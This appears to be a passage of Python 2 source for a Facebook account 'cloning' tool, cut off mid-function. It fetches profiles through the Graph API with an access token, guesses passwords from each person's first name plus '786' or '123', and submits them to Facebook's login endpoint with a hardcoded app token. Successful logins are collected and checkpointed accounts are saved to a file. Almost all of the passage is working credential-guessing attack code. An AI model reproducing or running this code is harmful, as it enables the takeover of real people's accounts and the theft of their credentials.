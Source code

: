 			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;97mFill in correctly"
		pilih_super()

	
	print "\033[1;36;40m[✺] Total IDs : \033[1;97m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m        ❈     \033[1;97mTo Stop Process Press CTRL+Z \033[1;97m    ❈"
	print "   \033[1;31;48m●💋══════════════════◄►══════════════════💋●"

	jalan('                    \033[1;97mAahil start cloning Wait...')
	print  "  \033[1;36;48m ●💋══════════════════◄►══════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else: